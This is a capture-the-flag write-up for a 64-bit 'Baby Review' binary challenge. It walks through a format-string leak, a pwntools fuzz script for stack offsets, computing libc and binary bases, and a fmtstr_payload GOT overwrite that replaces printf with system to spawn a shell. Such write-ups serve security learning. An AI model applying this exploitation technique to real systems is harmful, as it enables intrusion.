 # Baby Review

# Challenge

I've created a fun program for you to review your favorite movies and books. Can you figure out the problem with it?

# Solution
We are given a binary. ```file``` gives us the following info:
```baby-review: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c0f2ae97bc7bace37c862e0d5b2c18cb07494501, for GNU/Linux 4.4.0, not stripped```

Okay so a 64 bit non stripped binary. lets take a look.

```
❯ checksec baby-review
[*] '/home/pwn/ctf/damctf/pwn/babyreview/baby-review'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The checksec tells us about the securities in place on this binary. as you can see we have No Canary token. and only partial RELRO

To work on this locally you first need a countries.txt file.
```echo "France,Paris" > countries.txt```

From running the binary it looks like we only have 4 options.

```
1. Read a book?
2. Watch a movie?
3. Review a book/movie
4. Exit
```

But after opening the file in Ghidra 
![](pics/1.png)

You can see we also have case 5. add_movie()

add_movie() lets us add our own movie to be displayed in the watch_movie() function.

![](pics/2.png)

Our input is passed into printf()

as my input is passed right into printf() we can use this to leak info. Lets give it a go.

![](pics/3.png)

and you can see, we are leaking addresses.

Because we can call printf with a format strings bug as many times as we want. I am going to use a GOT overwrite exploit. the GOT is the global offset table. The address of each function is held within the GOT. Format strings have an option to pass %n which lets us overwrite data. 
This blog post will explain it better than I will: https://axcheron.github.io/exploit-101-format-strings/

in this case, we want to replace the address of printf with the address of system. so the next time printf is called. it will call system instead. so we can than pass /bin/sh into system to spawn a shell.

So we need some addresses.

To do that. I have a fuzz script.

```
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./baby-review', checksec=False)
context.terminal = ['alacritty', '-e', 'zsh', '-c']

io = process(elf.path)

i = 1
while i <= 100:
    try:
        io = process(elf.path,level='error')
        io.sendlineafter(b'France?',b'Paris')
        io.sendlineafter(b'Exit',b'5')
        payload = f"%{i}$p"
        io.sendline(payload)
        io.sendlineafter(b'Exit',b'2')
        leak = io.recvlines(8)[6]
        print(f"Offset {i} has {leak}")
        i += 1
    except EOFError:
        pass
```

outputs:
![](pics/4.png)

So I have some address. the addresses that start with 0x7fxxxxxxxxxx are likely to be libc address. 0x56xxxxxxxx would be addresses of the binary. 

This part takes some trial and error. getting each address and checking inside GDB what its value is.

After trial and error. I found a good leak for the libc and the binary. the 29th offset and the 9th offset.

![](pics/5.png)

Inside GDB we can look up that this leak is.

![](pics/6.png)

this 29th offset will always leak '\_IO_2_1_stdout_'

So to find the base address of libc we just need to take away '\_IO_2_1_stdout_' from the leak

For the binary I take the leak and minus the base of the binary. This will give us the value that we need to take away from the leak each time to get the base address.

With the two base addresses obtained we just need two more bits of info to overwrite the GOT table. the address of printf in the binary and the address of system in the libc libary.

Because we have the base addresses we can use pwn tools to get these addresses easier.


```
elf.address = bin_main
libc.address = libc_main
```

first set the base address of the binary to our new found addresses.

```
printf_addr = elf.got.printf
libc_system = libc.symbols.system
```

now we have printf and system.

our payload will be as follows:
```
payload =  fmtstr_payload(10, {
    elf.got.printf : libc_system 
    }, write_size='short')
```

the offset of 10 is found from when our input is reflected back in the format strings bug. to find this I used the same fuzz script but added 8 A's to the start of my payload and looked for when 0x41 was reflected.

![](pics/7.png)

Sending that payload into the printf will overwrite the GOT table, replacing printf with system so the time time I printf is called, it will actually call system.

```
io.sendline(b'/bin/sh')
```

While the hidden 5th function is adding our payload into the variable that is called in printf, we need to actually make sure the printf function is called. so when exploiting this we need to first go into the 5th menu option and than the 2nd to trigger the payload.

Full script is found above.
(also added a way to get the capital right each time)

![](pics/8.png)
